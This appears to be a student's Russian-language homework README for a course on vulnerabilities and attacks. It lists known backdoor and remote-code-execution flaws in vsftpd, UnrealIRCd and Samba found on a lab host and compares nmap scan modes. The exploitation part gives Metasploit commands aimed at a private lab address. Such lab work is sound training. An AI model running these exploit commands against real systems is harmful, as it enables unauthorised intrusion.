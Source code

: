 # Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Петровский Дмитрий`


### Инструкция по выполнению домашнего задания

   1. Сделайте `fork` данного репозитория к себе в Github и переименуйте его по названию или номеру занятия, например, https://github.com/имя-вашего-репозитория/git-hw или  https://github.com/имя-вашего-репозитория/7-1-ansible-hw).
   2. Выполните клонирование данного репозитория к себе на ПК с помощью команды `git clone`.
   3. Выполните домашнее задание и заполните у себя локально этот файл README.md:
      - впишите вверху название занятия и вашу фамилию и имя
      - в каждом задании добавьте решение в требуемом виде (текст/код/скриншоты/ссылка)
      - для корректного добавления скриншотов воспользуйтесь [инструкцией "Как вставить скриншот в шаблон с решением](https://github.com/netology-code/sys-pattern-homework/blob/main/screen-instruction.md)
      - при оформлении используйте возможности языка разметки md (коротко об этом можно посмотреть в [инструкции  по MarkDown](https://github.com/netology-code/sys-pattern-homework/blob/main/md-instruction.md))
   4. После завершения работы над домашним заданием сделайте коммит (`git commit -m "comment"`) и отправьте его на Github (`git push origin`);
   5. Для проверки домашнего задания преподавателем в личном кабинете прикрепите и отправьте ссылку на решение в виде md-файла в вашем Github.
   6. Любые вопросы по выполнению заданий спрашивайте в чате учебной группы и/или в разделе “Вопросы по заданию” в личном кабинете.
   
Желаем успехов в выполнении домашнего задания!
   
### Дополнительные материалы, которые могут быть полезны для выполнения задания

1. [Руководство по оформлению Markdown файлов](https://gist.github.com/Jekins/2bf2d0638163f1294637#Code)

---

### Задание 1

![Описание](./img/1.1.png)
![Описание](./img/1.2.png)


1. vsftpd 2.3.4 – Backdoor Command Execution (CVE-2011-2523)
Описание: В этой версии VSFTPD есть бэкдор, позволяющий злоумышленнику получить shell на сервере, отправив специальную последовательность символов в поле имени пользователя.

Exploit-DB: https://www.exploit-db.com/exploits/17491

Команда для эксплуатации (в Metasploit):

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.130.70
exploit
2. UnrealIRCd 3.2.8.1 – Backdoor (CVE-2010-2075)
Описание: В некоторых сборках UnrealIRCd был встроен бэкдор, позволяющий выполнить произвольные команды.

Exploit-DB: https://www.exploit-db.com/exploits/16922

3. Samba (usermap_script) – RCE (CVE-2007-2447)
Описание: Уязвимость в Samba позволяет выполнить код через неправильную обработку скриптов в smb.conf.

Exploit-DB: https://www.exploit-db.com/exploits/16320

msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.130.70
exploit

---

### Задание 2

![Описание](./img/2.1.png)
![Описание](./img/2.2.png)
![Описание](./img/2.3.png)
![Описание](./img/2.4.png)
![Описание](./img/2.5.png)
![Описание](./img/2.6.png)
![Описание](./img/2.7.png)
![Описание](./img/2.8.png)
![Описание](./img/2.9.png)

1. Чем отличаются режимы сканирования?
| Режим      | Тип пакетов        | Ответ сервера (открытый порт)       | Ответ сервера (закрытый порт)  |
|------------|--------------------|-------------------------------------|--------------------------------|
| SYN        | TCP SYN            | SYN-ACK                             | RST                            |
| FIN        | TCP FIN            | Нет ответа                          | RST                            |
| Xmas       | TCP FIN+PSH+URG    | Нет ответа                          | RST                            |
| UDP        | UDP-датаграммы     | Нет ответа / данные сервиса         | ICMP Port Unreachable          |

2. Как отвечает сервер?
SYN: Открытый порт → SYN-ACK, закрытый → RST.

FIN/Xmas: Открытый порт → молчит, закрытый → RST.

UDP: Открытый порт → молчит или данные сервиса, закрытый → ICMP Port Unreachable.